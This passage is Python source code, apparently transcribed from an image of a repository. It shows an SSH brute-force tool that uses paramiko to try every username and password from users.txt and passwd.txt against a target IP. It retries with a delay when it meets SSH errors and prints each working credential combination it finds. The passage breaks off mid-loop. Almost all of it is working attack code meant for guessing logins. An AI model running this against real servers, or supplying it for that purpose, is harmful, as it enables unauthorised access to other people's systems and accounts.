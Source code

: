         except socket.timeout:
            # this is when host is unreachable
            print(f"[!] Host: {hostname} is unreachable, timed out.")
            return False
        except paramiko.AuthenticationException:
            print(f"[!] Invalid credentials for {username}:{password}")
            return False
        except paramiko.SSHException:
            print(f"[*] Quota exceeded, retrying with delay...")
            # sleep for ten seconds
            time.sleep(10)
            return try_connect(hostname, username, password, port)
        else:
            # connection was established successfully
            print(f"[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}")
            return {'hostname' : hostname, 'username' : username, 'password' : password}
    
    def brute_force_SSH(targetIP: str) -> dict:
        """Gets ip address and tries to login to SSH server 
        users and passwords from file
        uses module paramiko.SSHClient()
        Args:
            targetIP (str): ip address    
        Returns: SSH_cerdentials (dict) : key: targetIP, value: list of lists; each list consists of pair user and password
        """
        print(f"Calling: brute_force_SSH on {targetIP}")
    
        # files: users and passwords operations
        
        password_file = "passwd.txt"
        passwds = open(password_file)
        pass_list = passwds.readlines()
        passwds.close()
    
        users_file = "users.txt"
        users = open(users_file)
        users_list = users.readlines()
        users.close()
    
        SSH_credentials = {}
        user_pass = []
    
        for user in users_list:
            user = user.strip()
            for passwd in pass_list:
                passwd = passwd.strip()
                if try_connect(targetIP, user,passwd):
                    user_pass.append([user,passwd])
                    break
            